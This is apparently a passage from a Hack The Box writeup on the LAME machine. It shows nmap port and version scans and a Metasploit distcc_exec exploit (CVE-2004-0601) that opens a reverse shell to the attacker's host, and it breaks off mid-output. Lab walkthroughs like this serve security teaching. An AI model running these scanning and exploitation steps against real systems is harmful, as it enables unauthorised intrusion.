 ```yaml
---
title: HTB Writeups - LAME, LEGACY, BLUE
published: true
---
```


A 3-for-1!

These three machines were too short or easy to really warrant a full writeup by themselves, so I've compounded them into this post. Let's get started!

### [](#header-3)LAME

The most obvious way to complete this box seems to be with an SMB exploit, but I initially went a different way that I'll go through here.

We start with a more exhaustive `nmap` scan to find open ports:

<pre>
<kw>root@kali:~</kw># nmap -sV -p1-65535 10.10.10.3
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for 10.10.10.3
Host is up (0.080s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
</pre>

And now another scan, concentrating on those open ports, to get detailed version information:

<pre>
<kw>root@kali:~</kw># nmap -sV --version-light -p21,22,139,445,3632 10.10.10.3
Starting Nmap 7.70 ( https://nmap.org ) 
Nmap scan report for 10.10.10.3
Host is up (0.049s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

distccd is a service that allows for distributed compilation over several machines - but versions before 2.16 have a [remote code execution vulnerability](https://www.cvedetails.com/cve/CVE-2004-0601/). There's a metasploit module we can use to take advantage of this. We'll start `msfconsole`:

<pre>
<kw>msf5 ></kw> use exploit/unix/misc/distcc_exec 
<kw>msf5 exploit(unix/misc/distcc_exec) ></kw> set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
<kw>msf5 exploit(unix/misc/distcc_exec) ></kw> set RPORT 3632
RPORT => 3632
<kw>msf5 exploit(unix/misc/distcc_exec) ></kw> exploit
[*] Started reverse TCP double handler on 10.10.14.51:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo o9TguQKChBhEyHVo;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...